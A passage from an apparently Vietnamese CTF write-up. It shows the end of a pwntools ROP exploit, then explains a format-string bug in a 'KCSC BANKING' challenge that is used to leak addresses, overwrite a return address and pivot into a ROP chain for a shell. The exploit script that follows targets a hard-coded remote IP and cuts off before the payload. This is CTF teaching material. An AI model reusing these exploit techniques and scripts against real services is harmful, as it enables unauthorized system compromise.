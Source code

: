 ```python
    libc.sym['open'],
    xchg,
    RSI,0x00000555555558500,
    RDX,0x100,
    libc.sym['read'],
    RSI,0x00000555555558500,
    RDX,0x100,
    RDI,1,
    libc.sym['write']
)
sleep(1)
p.sendline(payload)
p.interactive()
```


# KCSC BANKING 

Chúng ta có thể dễ dàng thấy một bug format string trong hàm info 

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/a34e4cb8-3d91-4a5e-bbd1-6132016ffdec)

Exploit : 
  +) sử dụng formattring để leak địa chỉ 
  
  +) Ta có thẻ tháy ở hàm logging , ta có thể tháy chương trình cho ta nhập rất nhiều byte cho username và password , nếu như debug có thể thấy nếu nhập đủ nhiều ký tự cho thì username của ta sẽ vẫn còn sót lại ngay cạnh địa chỉ trả về của hàm info . 

  +) Vậy bây giờ ta chỉ cần sử dụng formatstring để có thể ghi đè địa chỉ trả về của hàm info thành lệnh ret , trong username lúc đăng nhập ta sẽ chỉnh sao cho ngay sau địa chỉ trả về của hàm info sẽ là lệnh add rsp bao nhiêu đó để có thể nhảy vô payload ta chuẩn bị ở password 

  +) Vậy ở password ta chỉ cần ROP để có shell là được 

```python
from pwn import*
libc = ELF("./libc.so.6",checksec = False)
context.binary = exe = ELF("./banking",checksec = False)
def GDB():
    gdb.attach(p,gdbscript='''
    c
    ''')
    input()
# /usr/lib/x86_64-linux-gnu/libc.so.6
# p = remote("0",10002)
p = remote("103.163.24.78",10002)
# p = process(exe.path)

def reg(username,password,fullname):
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"username: ",username)
    p.sendlineafter(b"password: ",password)
    p.sendlineafter(b"name: ",fullname)

def login(username,password):
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"Username:",username)
    p.sendlineafter(b"Password:",password)

def info():
    p.sendlineafter(b'>',b"3")
input("Set the break point")
# GDB()
acc = b"DQP"
```